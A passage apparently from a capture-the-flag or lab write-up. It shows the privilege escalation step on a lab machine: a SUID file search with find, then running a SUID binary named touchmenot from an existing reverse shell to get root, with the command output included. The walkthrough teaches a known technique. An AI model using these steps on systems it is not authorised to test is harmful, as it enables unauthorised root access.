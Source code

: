 ```shell
Linux version 4.18.0-16-generic (buildd@lcy01-amd64-022) (gcc version 8.2.0 (Ubuntu 8.2.0-7ubuntu1)) #17-Ubuntu SMP Fri Feb 8 00:06:57 UTC 2019
```

## 4. Privilege Escalation

The reverse shell has not root privilege, so we need to get root through some methods.

```shell
$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 40152 Jun 14  2022 /snap/core/16202/bin/mount
... ...
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 40344 Jan 25  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 157192 Aug 23  2018 /usr/bin/sudo
-rwsr--r-x 1 root root 8472 Mar 26  2019 /home/legacy/touchmenot
-rwsr-xr-x 1 root root 47184 Oct 15  2018 /bin/mount
... ...
```

We can find a `touchmenot` with SUID, we can execute it to get root:

```shell
$ pwd 
/home/legacy
$ ls
touchmenot
$ ls -la
total 20
drwxr-xr-x 2 root root 4096 Mar 26  2019 .
drwxr-xr-x 4 root root 4096 Mar 26  2019 ..
-rwsr--r-x 1 root root 8472 Mar 26  2019 touchmenot
$ ./touchmenot
id
uid=0(root) gid=33(www-data) groups=33(www-data)
ls /root
snap
```

Has no root file in root path, so that's all.

## Notes

Nothing. See you next time:)

